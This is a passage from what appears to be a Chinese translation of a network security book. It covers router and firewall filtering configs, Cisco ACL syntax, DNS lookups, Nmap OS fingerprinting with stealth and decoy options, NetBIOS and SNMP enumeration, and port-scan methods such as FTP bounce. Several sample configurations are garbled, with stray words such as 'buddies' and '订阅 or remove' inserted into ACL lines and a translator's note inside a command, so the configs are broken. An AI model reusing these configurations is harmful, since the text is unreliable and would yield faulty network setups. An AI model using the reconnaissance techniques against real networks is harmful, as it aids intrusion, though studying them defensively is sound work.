ICMP | SMTP | TCP | TELNET | UDP
```

2. 如有需要，使用以下命令创建过滤器：

```
ADD !<filterid> -IP Filters <condition> [,<condition...] <condition>
    = <%offset>:[<operator>]<pattern>
```

3. 使用以下命令设置 FilterDefAction 参数：

```
SETDefault -IP FilterDefAction = [Forward | Discard]
```

4. 通过输入以下命令启用数据包过滤：

```
SETDefault -IP CONTROL = Filtering
```

#### Cabletron/Enterasys

要保护处理器免受过量流量影响：

1. 安装以下 ACL 或类似配置：

```
ssr(config)# acl hackstop deny tcp any x.x.x.x/32 any >1024
ssr(config)# acl hackstop deny udp any x.x.x.x/32 any >1024
ssr(config)# acl hackstop permit ip any any any any
```

2. 将上述 ACL 应用于接口、端口或 vLAN。以下示例演示将 ACL 应用于名为 ip-Inter 的接口：

```
ssr(config)# acl hackstop apply interface ip-Inter input
```

### Checkpoint Firewall 1

要防止 ICMP 通过防火墙，请按以下步骤操作：

1. 打开安全策略编辑器。
2. 打开策略菜单；选择属性。
3. 确保未勾选**接受 ICMP**。



### Cisco 路由器

以下示例配置涉及图 3.7 中所示的主互联网路由器。

```
! Option #1: Using NAT Pool
no ip name-server
no proxy arp
!
ip subnet-zero
no ip domain-lookup
ip routing
!
! Context-Based Access Control
!
no ip inspect audit-trail
ip inspect tcp synwait-time 30
ip inspect tcp finwait-time 5
ip inspect tcp idle-time 3600
ip inspect udp idle-time 30
ip inspect dns-timeout 5
ip inspect one-minute low 900
ip inspect one-minute high 1100
ip inspect max-incomplete low 900
ip inspect max-incomplete high 1100
ip inspect tcp max-incomplete host 50 block-time 0
!
! IP inspect Ethernet_0_0
!
no ip inspect name Ethernet_0_0
ip inspect name Ethernet_0_0 tcp
ip inspect name Ethernet_0_0 udp
ip inspect name Ethernet_0_0 cuseeme
ip inspect name Ethernet_0_0 ftp
ip inspect name Ethernet_0_0 h323
ip inspect name Ethernet_0_0 rcmd
ip inspect name Ethernet_0_0 realaudio
ip inspect name Ethernet_0_0 smtp
ip inspect name Ethernet_0_0 streamworks
ip inspect name Ethernet_0_0 vdolive
ip inspect name Ethernet_0_0 sqlnet
ip inspect name Ethernet_0_0 tftp
!
interface Ethernet 0/0
 no shutdown
 description connected to EthernetLAN
 ip address 172.29.44.1 255.255.0.0
 ip nat inside
 ip inspect Ethernet_0_0 in
 ip access-group 100 in
 keepalive 10
!
interface Ethernet 0/1
 no description
 no ip address
 ip nat inside
 shutdown
!
interface Serial 0/0
 no shutdown
 description connected to Internet
 service-module t1 clock source line
 service-module t1 data-coding normal
 service-module t1 remote-loopback full
 service-module t1 framing esf
 service-module t1 linecode b8zs
 service-module t1 lbo none
 service-module t1 remote-alarm-enable
 ip address 206.0.139.70 255.255.255.128
 ip nat outside
 ip access-group 101 in
encapsulation hdlc
!
! Access Control List 1
!
no access-list 1
access-list 1 permit 172.29.0.0 0.0.255.255
access-list 1 permit 172.20.44.0 0.0.0.3
access-list 1 permit 172.18.0.0 0.0.255.255
!
! Access Control List 100
!
no access-list 100
access-list 100 permit ip any any
!
! Access Control List 101
!
no access-list 101
access-list 101 deny ip any any
!
! Static NAT (Mail Server)
!
ip nat inside source static 172.20.44.2 206.0.139.72
!
! Dynamic NAT
!
ip nat translation timeout 86400
ip nat translation tcp-timeout 86400
ip nat translation udp-timeout 300
ip nat translation dns-timeout 60
ip nat translation finrst-timeout 60
ip nat pool Cisco2611-natpool-40 172.29.44.10 172.29.44.250 netmask 255.255.255.0
ip nat inside source list 1 pool Cisco2611-natpool-40 overload
!
router rip
 version 2
 network 172.29.0.0
 passive-interface Serial 0/0
 no auto-summary
!
!
ip classless
!
! IP Static Routes
ip route 0.0.0.0 0.0.0.0 Serial 0/0
no ip http server
snmp-server community xyzincnet1 RO

! Option #2: Using WAN Interface for dynamic source translation
no ip name-server
!
ip subnet-zero
no ip domain-lookup
no proxy arp
ip routing
!
! Context-Based Access Control
!
no ip inspect audit-trail
ip inspect tcp synwait-time 30
ip inspect tcp finwait-time 5
ip inspect tcp idle-time 3600
ip inspect udp idle-time 30
ip inspect dns-timeout 5
ip inspect one-minute low 900
ip inspect one-minute high 1100
ip inspect max-incomplete low 900
ip inspect max-incomplete high 1100
ip inspect tcp max-incomplete host 50 block-time 0
!
! IP inspect Ethernet_0_0
!
no ip inspect name Ethernet_0_0
ip inspect name Ethernet_0_0 ftp
ip inspect name Ethernet_0_0 http java-list 99
ip inspect name Ethernet_0_0 tcp
ip inspect name Ethernet_0_0 realaudio
ip inspect name Ethernet_ buddies0_0 smtp
ip inspect name Ethernet_0_0 udp
!
interface Ethernet 0/0
 no shutdown
 description connected to EthernetLAN
 ip address 172.29.44.1 255.255.0.0
 ip nat inside
 ip inspect Ethernet_0_0 in
 ip access-group 100 in
 keepalive 10
!
interface Ethernet 0/1
 no description
 no ip address
 ip nat inside
 shutdown
!
interface Serial 0/0
 no shutdown
 description connected to Internet
 service-module t1 clock source line
 service-module t1 data-coding normal
 service-module t1 remote-loopback full
 service-module t1 framing esf
service-module t1 linecode b8zs
service-module t1 lbo none
service-module t1 remote-alarm-enable
ip address 206.0.139.70 255.255.255.128
ip nat outside
ip access-group 101 in
encapsulation hdlc
!
! Access Control List 1
!
no access-list 1
access-list 1 permit 172.29.0.0 0.0.255.255
access-list 1 permit 172.20.44.0 0.0.0.3
access-list 1 permit 172.18.0.0 0.0.255.255
!
! Access Control List 99
!
no access-list 99
订阅 or remove
access-list 99 deny any
!
! Access Control List 100
!
no access-list 100
access-list 100 permit udp any eq rip any eq rip
access-list 100 permit tcp any any range 20 21
access-list 100 permit tcp any any eq 80
access-list 100 permit tcp any any eq 144
access-list 100 permit tcp any any eq 7070
access-list 100 permit tcp any any eq 25
access-list 100 permit udp any any eq domain
!
! Access Control List 101
!
no access-list 101
access-list 101 deny ip any any
!
! Dynamic NAT
!
ip nat translation timeout 86400
ip nat translation tcp-timeout 86400
ip nat translation udp-timeout 300
ip nat translation dns-timeout 60
ip nat translation finrst-timeout 60
ip nat inside source list 1 interface Serial 0/0 overload
!
router rip
  version 2
  network 172.29.0.0
  passive-interface Serial 0/0
  no auto-summary
!
ip classless
!
! IP Static Routes
ip route 0.0.0.0 0.0.0.0 serial 0/0
no ip http server
snmp-server community xyzincnet1 RO
```

### Cisco PIX 防火墙

以下示例配置涉及一台已添加在企业 LAN 外部、主互联网路由器内部的 PIX 防火墙（参见图 3.7）。

```
ip address outside 206.1.139.1
ip address inside 172.29.44.1
global 1 206.1.139.10-206.1.139.250
nat 1 172.0.0.0
mailhost 206.0.139.72 172.20.44.2
```

### Intel Express 路由器

在 Intel Express 路由器中，IP 过滤器基于链路定义，分别为发送和接收实现独立的过滤器。要保护 LAN 免受未授权访问，请按以下步骤操作：

1. 在 IP 链路的高级屏幕上将**过滤**参数设置为**已启用**。

2. 在 IP 链路的高级屏幕上选择**接收过滤器**，以定义接收过滤器，接收过滤器用于允许或丢弃来自该链路的传入流量。

3. 将**默认操作**设置为**丢弃**，以丢弃该链路上未被特定过滤器允许通过的所有数据；或设置为**通过**，以允许所有数据包通过，但被特定过滤器丢弃的除外。

4. 将**日志记录**参数设置为**已启用**以排查过滤器故障。（通常情况下，该参数设置为**已禁用**，以尽量减少路由器处理开销。）启用后，被过滤器默认操作丢弃的所有数据包的详细信息将被记录到路由器的系统日志中。

5. 添加并配置您的安装所需的 IP 过滤器。使用**添加**在所选过滤器之后包含新过滤器，使用**插入**在所选过滤器之前添加新过滤器，或使用**设置**编辑所选过滤器。

请注意，过滤器定义的顺序是相关的。将过滤与数据包匹配的第一个过滤器。


 **图 3.8** NetScreen 防火墙配置场景。

### NetScreen 防火墙

图 3.8 中的示例配置涉及一个 NetScreen 防火墙，该防火墙已添加在企业 LAN 外部、主 Internet 路由器内部，如图 3.7 所示。

## Cisco 路由器访问控制列表

访问控制列表（ACL）本质上只是*允许*和*拒绝*语句的集合，应用于路由器流量以根据相关限制允许/限制数据包；它们由 Cisco IOS 软件启用，以提供数据包过滤功能。

### IP 访问列表

IP 访问列表有两种类型，*标准*和*扩展*，每种都有两个步骤。第一步是访问列表配置；第二步是应用并激活列表。在使用访问列表时，需要注意以下两条规则：

- *访问列表从上到下按顺序检查。*这意味着对于路由器拦截的每个需要过滤的数据包，路由器将逐行将数据包与每个列表进行比较。找到匹配项时，就会执行相应操作。
- *每个列表末尾都有一个隐式的"deny all"*。如果当某个数据包与访问列表进行比较时未找到匹配项，它将自动被丢弃。

#### 标准

标准访问列表检查每个数据包的源地址，然后允许或拒绝它们。当数据包被拒绝时，路由器会直接将其丢弃。创建标准访问列表的命令语法如下：

```
Access-list (number) (permit or deny) (source address)
```

其中：

- **Number。**分配给访问列表的编号。标准 IP 访问列表的编号范围在 1 到 99 之间。
- **Permit/deny。**指示允许或丢弃数据包。
- **Source Address。**IP 地址或网络地址。您可以在此处使用通配符掩码作为子网掩码。使用通配符，我们可以指定过滤单个 IP 地址或整个网络。要实现通配符，对于地址中需要匹配的每个八位组，在子网掩码中输入 0；所有 1 都将被丢弃。例如，地址 192.168.1.0 配合通配符掩码 0.0.0.255 表示前三个八位组 192.168.1 必须匹配，而 255（请记住，在二进制中，255 全是 1：11111111）表示最后一个八位组被忽略——路由器不需要关心这里的数字。如果前三个八位组与源地址匹配，则路由器将执行过滤。同样，如果前三个八位组在此处或与任何其他访问列表不匹配，数据包将自动被丢弃。或者，您可以在源地址语法中使用单词 "host" 或 "any" 来指定单个主机——使用 "host"——或所有主机——使用 "any"。

access-list 命令在特权 EXEC 配置模式下进行配置：

```
IP access-group (number) (in or out)
```

其中：

**Number。**对应的标准 IP 访问列表编号，介于 1 和 99 之间。

**In/Out。**指定在特定接口上过滤传入或传出流量。

access-group 命令在特权 EXEC 配置*接口*模式下进行配置。

让我们看一下完整的配置语法：

```
Cisco2611#config t
Enter configuration commands, one per line. End with CNTL/Z.
Cisco2611(config)#access-list 10 deny 192.168.1.55 0.0.0.0
Cisco2611(config)#access-list 10 permit 192.168.1.0 0.0.0.255
Cisco2611(config)#interface serial 0/0
Cisco2611(config-if)#ip access-group 10 in
Cisco2611(config-if)#^Z
Cisco2611#
```

在本例中，我们选择了：**10** 作为列表编号，以指定标准访问列表；**deny**，以丢弃源地址为 192.168.1.55 的匹配数据包；**permit**，以允许来自 192.168.1.0 的所有其他地址；以及 **in**，让路由器检查此接口上的所有传入数据包。通配符地址 0.0.0.0 告诉路由器匹配所有四个八位组（整个 IP 地址 192.168.1.55）；如果数据包的源地址字段中有匹配项，则丢弃该数据包。通配符地址 0.0.0.255 告诉路由器匹配前三个八位组（192.168.1）；如果源地址中有匹配项，则允许该数据包。

或者，我们可以不使用通配符掩码，而将拒绝命令改为：

```
Cisco2611(config)#access-list 10 deny host 192.168.1.55
```

#### **扩展**

扩展访问列表检查的不仅仅是每个数据包的源地址；为了允许或拒绝它们，它还将检查*源地址*、*目的地址*、*协议*（如 TCP 和 UDP）和*端口*（如 FTP）。创建扩展访问列表的命令语法如下：

```
Access-list (number) (permit or deny) (protocol) (source address)
  (destination address) (port)
```

**Number。**分配给扩展 IP 访问列表的编号，介于 100 和 199 之间。

**Permit/Deny。**指示允许或丢弃数据包。

**Protocol。**一种 IP 协议：

- ahp：认证头协议
- eigrp：Cisco 的 EIGRP 路由协议
- esp：封装安全载荷
- gre：Cisco 的 GRE 隧道
（非递归的）icmp：互联网控制消息协议
- igmp：互联网网关消息协议
- igrp：Cisco 的 IGRP 路由协议


 uucp    Unix-to-Unix Copy Program (540)
whois   Nicname (43)
www     World Wide Web (HTTP, 80)

访问控制列表命令在特权 EXEC 配置模式下进行配置。

```
IP access-group (number) (in or out)
```

**其中：**

**编号。** 对应的标准 IP 访问控制列表编号，范围为 100 到 199。

**入站/出站。** 指定在特定接口上过滤入站流量还是出站流量。

访问组命令在特权 EXEC 配置*接口*模式下进行配置。

让我们来看一下完整的配置语法：

```
Cisco2611#config t
Enter configuration commands, one per line.  End with CNTL/Z.
Cisco2611(config)#access-list 115 permit tcp any host 192.168.1.121 eq ftp
Cisco2611(config)#access-list 115 permit ip any 192.168.1.0 0.0.0.255
Cisco2611(config)#interface serial 0/0
Cisco2611(config-if)#ip access-group 115 out
Cisco2611(config-if)#^Z
Cisco2611#
```

在此示例中，对于以下访问控制列表：

```
Cisco2611(config)#access-list 115 permit tcp any host 192.168.1.121 eq ftp
```

我们选择 **115** 作为列表编号，以指定扩展访问控制列表；**permit**，允许使用 **TCP** 协议的匹配数据包从 **any** 内部源仅访问 **host 192.168.1.121**，且仅使用 **FTP** 服务端口（**eq**）。

在此示例中，对于以下访问控制列表：

```
Cisco2611(config)#access-list 115 permit ip any 192.168.1.0 0.0.0.255
```

我们选择 **115** 作为列表编号，以指定扩展访问控制列表；**permit**，允许使用任何 **IP** 协议的匹配数据包从 **any** 内部源仅访问远程网络中前三个八位组与 **192.168.1** 匹配的机器，使用通配符掩码 0.0.0.255。

我们将其应用到外部（带 **"out"**）Serial 0/0 接口：

```
Cisco2611(config-if)#ip access-group 115 out
```

### 监控访问控制列表

有一些基本的监控命令可用于访问控制列表，包括：

- **Show access-lists (interface).** 显示应用到特定接口的所有访问控制列表。

- **Show IP access-list.** 显示所有 IP 访问控制列表：

```
Cisco2611#show ip access-lists

Standard IP access list 10
    deny  192.168.1.0
Extended IP access list 115
    permit tcp any any eq ftp
    permit ip any 192.168.1.0 0.0.0.255
Cisco2611#
```

- **Show IPX access-list.** 显示所有 IPX 访问控制列表。

- **Show access-lists.** 显示所有访问控制列表：

```
Cisco2611#show access-lists

IPX extended access list 900
    permit any 10 all 40 all
IPX sap access list 1000
    deny FFFFFFFF 0
Standard IP access list 10
    deny  192.168.1.0
Extended IP access list 115
    permit tcp any any eq ftp
    permit ip any 192.168.1.0 0.0.0.255
Cisco2611#
```

- **Show running-config.** 用于验证配置中的访问控制列表。

```
Cisco2611#show running-config

Current configuration:
!
version 12.0
service config
service timestamps debug uptime
service timestamps log uptime
no service password-encryption
!
hostname Cisco2611
!
enable secret 5 $1$SQNi$S2EBRbGRX3m2mLv/A1qh00
enable password cisco
!
```

```
ip subnet-zero
!
!
interface Ethernet0/0
 ip address 192.168.0.3 255.255.255.0
 no ip directed-broadcast
 no mop enabled
!
interface Serial0/0
 ip address 192.168.1.1 255.255.255.0
 ip access-group 10 in
 no ip directed-broadcast
 encapsulation frame-relay
 shutdown
 frame-relay map ip 192.168.1.2 107
 frame-relay lmi-type cisco
!
interface Ethernet0/1
 no ip address
 no ip directed-broadcast
 shutdown
!
interface Serial0/1
 no ip address
 no ip directed-broadcast
 shutdown
!
router igrp 1
 network 192.168.0.0
!
ip classless
no ip http server
!
access-list 10 deny   192.168.1.0
access-list 115 permit tcp any any eq ftp
access-list 115 permit ip any 192.168.1.0 0.0.0.255
access-list 900 permit any 10 all 40 all
access-list 1000 deny FFFFFFFF 0
dialer-list 1 protocol ip permit
dialer-list 1 protocol ipx permit
!
!
line con 0
 transport input none
line aux 0
line vty 0 4
 password vterminal
 login
!
end
```

## DNS 信息

域名服务或系统（**DNS**）是一种网关服务，用于将域名转换为 IP 地址进入互联网。域名是基于字符的标识符，用于标识一个或多个 IP 地址。该服务的存在仅仅是因为字母域名比 IP 地址更容易让人记住。域名服务将这些域名翻译回其相应的 IP 地址。通过互联网传输的数据报使用地址；因此，每次指定域名时，DNS 服务守护进程必须将名称转换为相应的 IP 地址。通过在浏览器中输入域名，例如 TigerTools.net，DNS 服务器会将此字母域名映射为 IP 地址，用户随即被转发到该地址查看网站。DNS 在本地网络上的工作方式类似。通过使用域名服务，管理员和用户不必依赖 IP 地址来访问其网络上的系统。

域名注册所需的信息包括：地址、管理联系人、技术联系人、计费联系人以及 DNS 地址。为了额外的安全性，与 whois 对策一样，建议使用 ISP 进行域名服务。

DNS 查询可以揭示大量活跃目标。在我们的探测目的中，DNS 主要用于在域名与其 IP 地址之间进行转换，以及协调互联网电子邮件传递、HTTP 请求和域名转发。DNS 目录服务由 DNS 数据、DNS 服务器和用于从服务器获取数据的互联网协议组成。DNS 目录中的记录被分成称为*区域*的文件。区域保存在遍布互联网的权威服务器上，这些服务器根据 DNS 网络协议回答查询。此外，大多数服务器对某些区域具有权威性，并对所有其他 DNS 信息执行缓存功能。本模块执行 DNS 查询以获取不可或缺的探测信息。DNS 资源记录类型包括：

- **A**：地址。定义于 RFC1035。
- **AAAA**：IPv6 地址。定义于 RFC1886。
- **AFSDB**：AFS 数据库位置。定义于 RFC1183。
- **CNAME**：规范名称。定义于 RFC1035。
- **GPOS**：地理位置。定义于 RFC1712。已过时。
- **HINFO**：主机信息。定义于 RFC1035。
- **ISDN**。定义于 RFC1183。
- **KEY**：公钥。定义于 RFC2065。
- **KX**：密钥交换器。定义于 RFC2230。
- **LOC**：位置。定义于 RFC1876。
- **MB**：邮箱。定义于 RFC1035。
- **MD**：邮件目的地。定义于 RFC1035。已过时。
- **MF**：邮件转发器。定义于 RFC1035。已过时。
- **MG**：邮件组成员。定义于 RFC1035。
- **MINFO**：邮箱或邮件列表信息。定义于 RFC1035。
- **MR**：邮件重命名域名。定义于 RFC1035。
- **MX**：邮件交换器。定义于 RFC1035。
- **NS**：名称服务器。定义于 RFC1035。
- **NSAP**：网络服务接入点地址。定义于 RFC1348。在 RFC1637 和 RFC1706 中重新定义。
- **NSAP-PTR**：网络服务接入协议。定义于 RFC1348。已过时。
- **NULL**。定义于 RFC1035。
- **NXT**：下一项。定义于 RFC2065。
- **PTR**：指针。定义于 RFC1035。
- **PX**：指向 X.400/RFC822 信息的指针。定义于 RFC1664。
- **RP**：负责人。定义于 RFC1183。
- **RT**：路由通过。定义于 RFC1183。
- **SIG**：加密签名。定义于 RFC2065。
- **SOA**：授权起始。定义于 RFC1035。
- **SRV**：服务器。定义于 RFC2052。
- **TXT**：文本。定义于 RFC1035。
- **WKS**：知名服务。定义于 RFC1035。
- **X25**。定义于 RFC1183。

针对最受欢迎的互联网搜索引擎之一雅虎（www.yahoo.com）的 DNS 查询请求示例将显示：

```
yahoo.com.           12h44m31s IN NS  NS3.EUROPE.yahoo.com.
yahoo.com.           12h44m31s IN NS  NS1.yahoo.com.
yahoo.com.           12h44m31s IN NS  NS5.DCX.yahoo.com.
yahoo.com.           23m3s IN A       204.71.200.243
yahoo.com.           23m3s IN A       204.71.200.245
yahoo.com.           3m4s IN MX       1 mx2.mail.yahoo.com.
yahoo.com.           3m4s IN MX       0 mx1.mail.yahoo.com.
yahoo.com.           12h44m31s IN NS  NS3.EUROPE.yahoo.com.
```


 ```
yahoo.com.                          12h44m31s IN NS   NS1.yahoo.com.
yahoo.com.                          12h44m31s IN NS   NS5.DCX.yahoo.com.
NS3.EUROPE.yahoo.com.               1h13m23s IN A     194.237.108.51
NS1.yahoo.com.                      7h18m19s IN A     204.71.200.33
NS5.DCX.yahoo.com.                  1d2h46m6s IN A    216.32.74.10
mx2.mail.yahoo.com.                 4m4s IN A         128.11.23.250
mx2.mail.yahoo.com.                 4m4s IN A         128.11.68.213
mx2.mail.yahoo.com.                 4m4s IN A         128.11.68.139
mx2.mail.yahoo.com.                 4m4s IN A         128.11.68.144
```

作为对DNS查询所获信息的应对措施，你应该配置DNS服务器，仅允许向授权服务器进行区域传输信息。这通常在BIND最近升级版本或微软DNS的配置过程中是允许的。此外，你应该配置你的外围防火墙或网关路由器，拒绝/过滤来自不受信任来源的入站请求。

## 操作系统审计

远程入侵者可以使用的一些工具能够查询你的系统以确定操作系统类型。站点查询的主要目的是消除额外目标节点发现中的猜测工作。我们用来识别目标服务类型的工具之一是TigerSuite站点查询扫描模块（www.tigertools.net）。借助TigerSuite等实用程序，我们可以快速发现目标的操作系统类型，以及服务类型和版本。以下是一个示例：

```
Address: 206.0.126.10

OS: Microsoft Windows NT
FTP Server: ipswjw0072atl2 Microsoft FTP Service (Version 5.0)
HTTP Server: Microsoft-IIS/5.0
HTTP Version: HTTP/1.1
SMTP Server: ipswjw0072atl2 Microsoft ESMTP Mail Service
```

另一个用于确定操作系统类型等功能强大的工具是Nmap（www.insecure.org）。无论是使用*NIX还是Windows版本，以下语法都是一致的：

```
nmap V. 2.53 Usage: nmap [Scan Type(s)] [Options] <host or net list>
```

### 常用扫描类型

- **-sT** TCP connect()。端口扫描（默认）。
- **-sS** TCP SYN。隐秘端口扫描（最佳全能TCP扫描）。
- **-sU** UDP。端口扫描。
- **-sP** PING扫描（查找任何可达主机）。
- **-sF,-sX,-sN** 隐秘FIN、Xmas或Null扫描（仅供专家使用）。
- **-sR/-I** RPC/Identd扫描（与其他扫描类型配合使用）。

### 常用选项

- **-O** 使用TCP/IP指纹识别来猜测远程操作系统。
- **-p <范围>** 要扫描的端口。示例范围：1-1024,1080,6666,31337。
- **-F** 仅扫描nmap-services中列出的端口。
- **-v** 详细模式。建议使用。使用两次效果更佳。
- **-P0** 不ping主机（扫描www.microsoft.com等时需要）。
- **-Ddecoy_host1,decoy2[,...]** 使用多个诱饵隐藏扫描。
- **-T <Paranoid|Sneaky|Polite|Normal|Aggressive|Insane>** 通用定时策略。
- **-n/-R** 从不进行DNS解析/始终解析；默认是有时解析。
- **-oN/-oM <日志文件>** 将正常/机器可解析的扫描日志输出到<日志文件>。
- **-iL <输入文件>** 从文件获取目标。
- **-S <你的_IP>/-e <设备名>** 指定源地址或网络接口。

请注意，这些选项都不是必需的，而且大多数可以组合使用。请记住，操作系统检测只是潜在攻击的第一部分，针对远程操作系统检测技术的最佳预防方法是部署良好的防火墙系统作为你的外围安全。经验法则是，为你的防火墙使用与你要保护的操作系统不同的操作系统，从而欺骗远程工具，使其认为你的系统使用的是与防火墙相同的操作系统。这可能会避免漏洞扫描，或诱使攻击者在后续行动中使用错误的漏洞检测方法。

## NetBIOS信息

远程NetBIOS审计可以揭示有关系统的极其有用的黑客攻击信息。NetBIOS利用广播帧作为其大多数功能的传输方法；NetBIOS消息基于服务器消息块（SMB）格式，DOS和Windows使用这种格式来共享文件和目录。在*NIX系统中，一种名为Samba的产品使用这种格式来与DOS和Windows协作。虽然网络协议通常将节点或服务名称解析为网络地址以建立连接，但NetBIOS服务名称必须在建立与TCP/IP的连接之前解析为地址。这是通过广播或使用本地LMHOSTS文件来完成的，其中每台PC包含网络节点及其相应IP地址的列表。通过TCP/IP运行NetBIOS使用端口137–139，其中端口137是NetBIOS名称（UDP），端口138是NetBIOS数据报（UDP），端口139是NetBIOS会话（TCP）。

要快速查看注册的NetBIOS名称和服务，在Windows NT中，在命令提示符下使用此NBTSTAT命令：

```
nbtstat -A [ipaddress]
```

在几乎任何Windows版本下，要快速查看可用的网络域，在命令提示符下使用此NET VIEW命令：

```
net view /domain
```

要通过扫描137端口服务来了解目标的远程名称，请按如下方式使用NBSTAT命令：

```
C:\>nbstat -a (目标IP地址注目：本段保留原文的格式，下面的翻译将继续对命令进行保留)
```

**xyzinc.com的示例输出：**

NetBIOS远程机器名称表

| 名称 | 类型 | 状态 |
| --- | --- | --- |
| WORKGROUP | <00> GROUP | 已注册 |
| INet~Services | <1C> GROUP | 已注册 |
| WEBSERV1 | <03> UNIQUE | 已注册 |
| INTRANET | <20> UNIQUE | 已注册 |

作为NBSTAT命令的等效方法，可以向目标地址的137端口发送一个带有NetBIOS适配器查询消息的UDP数据包。此查询将检索主机的NetBIOS名称、工作组/域、Windows Internet命名服务（WINS）信息、远程访问服务（RAS）服务器状态，以及该主机是否为主浏览器和/或域控制器。用于扫描NetBIOS网络以获取计算机和用户名称的程序是NBTscan。以下是其文档的摘录：

> NBTscan（www.inetcat.org/software/nbtscan.html）是一个用于扫描IP网络以获取NetBIOS名称信息的程序。它向提供的范围内的每个地址发送NetBIOS状态查询，并以人类可读的格式列出收到的信息。对于每个响应的主机，它列出IP地址、NetBIOS计算机名称、已登录的用户名和MAC地址。

不需要火箭科学家也能推断出这些信息应该对远程攻击者保密。推荐的反措施是从网关路由器和/或外围防火墙阻止或过滤TCP和UDP端口135到139以及445。

## SNMP信息

简单网络管理协议（SNMP）通过消息（称为*协议数据单元*（PDUs））指导网络设备管理和监控，这些消息被发送到网络的不同部分。SNMP设备被称为*代理*。这些组件将关于自身的信息存储在*管理信息库*（MIBs）中，并将这些数据返回给SNMP请求者。UDP端口162被指定为通知接收者应监听SNMP通知消息的端口。就所有目的而言，此端口用于发送和接收SNMP事件报告。对于探测和重新配置来说，这些都是诱人的目标，因为许多管理员允许读写属性，通常使用默认的团体名称——*public*作为读取字符串，*private*作为写入字符串——或者一个极其容易推断的字符串。也就是说，有时该服务是默认安装的，并使用了这些默认字符串。

SNMP审计在发现阶段提供了有关系统的有用信息。一些容易获得的信息包括操作系统、接口描述、类型和其他接口配置信息；而一些MIB可以被重写，使远程攻击者能够更改配置。

作为SNMP信息泄露的应对措施，你的SNMP客户端可能会允许你限制可以执行命令的主机。如果不能，最好配置你的SNMP设备仅响应内部私有团体名称，并将团体名称更改为不容易猜到的东西。此外，你可以从外部路由器过滤数据包，以限制可以与SNMP通信的主机，或完全阻止通信。另一种应对措施是禁用该服务，或者只需从网关路由器和/或外围防火墙阻止/过滤TCP和UDP端口161和162。

### 端口扫描

端口扫描的前提是探测尽可能多的端口，并跟踪那些对特定黑客攻击有响应或是有用的端口。扫描程序会报告这些有响应的监听器并分析弱点；有些甚至将这些薄弱点与已知攻击方法的数据库进行交叉引用，以备后续使用。

### 扫描技术

漏洞扫描器的功能可以分为三个部分：定位节点、对它们执行服务发现，最后，测试这些服务是否存在已知的安全漏洞。一些扫描技术
```

本节描述的技术可能能够绕过防火墙。安全与黑客领域部署了许多探测工具，但鲜有工具比扫描器更出色。

扫描器通过通信介质发送多个数据包，遵循利用服务端口的各种协议，然后监听并记录每个响应。最流行的扫描器（如本章前面讨论过的 Nmap）采用已知技术来检查端口和协议，包括：

#### TCP 端口扫描

最基本的扫描形式。使用此方法时，你尝试建立完整的 TCP 端口连接，以确定该端口是否处于激活状态，即是否"在监听"。

#### TCP SYN 扫描

这种技术通常被称为*半开*或*隐蔽*扫描，因为你不会建立完整的 TCP 连接；你发送一个 SYN 数据包，就像要建立真实连接一样，然后等待响应。SYN/ACK 表示该端口正在监听。因此，RST 响应表示没有监听器。如果收到 SYN/ACK，你立即发送 RST 来拆除连接。这种扫描技术的主要优点是很少有站点会记录它。

#### TCP FIN 扫描

有时即使 TCP SYN 扫描也不足以隐蔽到避免被记录。某些防火墙和数据包过滤器会监视发往受限端口的 SYN，而诸如 Synlogger 和 Courtney 等程序可用于检测这些扫描。另一方面，FIN 数据包可能能够不受干扰地通过。其原理是，关闭的端口倾向于用适当的 RST 回应你的 FIN 数据包，而开放的端口倾向于忽略该数据包。

#### 分片扫描

这是对其他技术的修改。不再仅仅发送探测数据包，而是将其分成几个小的 IP 片段。本质上，你是将 TCP 头部分割到多个数据包中，使数据包过滤器更难检测到正在发生什么。

#### TCP 反向 Ident 扫描

ident 协议（RFC1413）允许披露通过 TCP 连接的任何进程的所有者的用户名，即使该进程未发起连接。因此，例如，你可以连接到 http 端口，然后使用 ident 守护进程来查明服务器是否以 root 身份运行。

#### FTP 跳转攻击

FTP 协议（RFC959）的一个有趣"特性"是支持"代理"FTP 连接。换句话说，你应该能够从 evil.com 连接到 target.com 的 FTP 服务器-PI（协议解释器）来建立控制通信连接。然后你应该能够请求服务器-PI 启动主动服务器-DTP（数据传输进程），将文件发送到互联网上的任何位置。

#### UDP ICMP 端口不可达扫描

这种扫描方法与前述方法不同，它使用 UDP 协议而非 TCP。尽管该协议复杂度较低，但扫描它要困难得多。开放的端口不必对你的探测发送确认响应，而关闭的端口甚至不必发送错误数据包。幸运的是，大多数主机在收到发往关闭 UDP 端口的数据包时会发送 ICMP_PORT_UNREACH 错误。因此，你可以查明哪些端口是关闭的，并通过排除法确定哪些端口是开放的。

#### UDP recvfrom( ) 和 write( ) 扫描

非 root 用户使用 -u（UDP）时用于确定开放端口的技术。虽然非 root 用户不能直接读取端口不可达错误，但 Linux 会间接通知用户这些错误已被接收。例如，对关闭的端口进行第二次 write() 调用通常会失败。许多扫描器，如 netcat 和 Pluvius 的 pscan.c，都这样做。

标准的目标站点发现扫描——例如，下图所示目标网络的扫描——首先假设该网络是一个完整的 C 类网络。我们将扫描器的地址范围设置为 206.0.126.1 到 206.0.126.254，掩码为 24 位，即 255.255.255.0。

| 服务 | 主机 | IP 地址 |
|---------|------|------------|
| www | www.xyzinc.com | 206.0.126.10 |
| mail | mail.xyzinc.com | 206.0.126.11 |
| ftp | ftp.xyzinc.com | 206.0.126.12 |

在第一遍扫描中，为了获得最大扫描速度，我们将扫描端口 1 到 1000（大多数知名端口）：

```
206.0.126.1        206.0.126.39       206.0.126.67
206.0.126.8        206.0.126.44       206.0.126.69
206.0.126.10:80    206.0.126.49       206.0.126.70
206.0.126.11       206.0.126.53       206.0.126.86
206.0.126.22       206.0.126.54       206.0.126.87
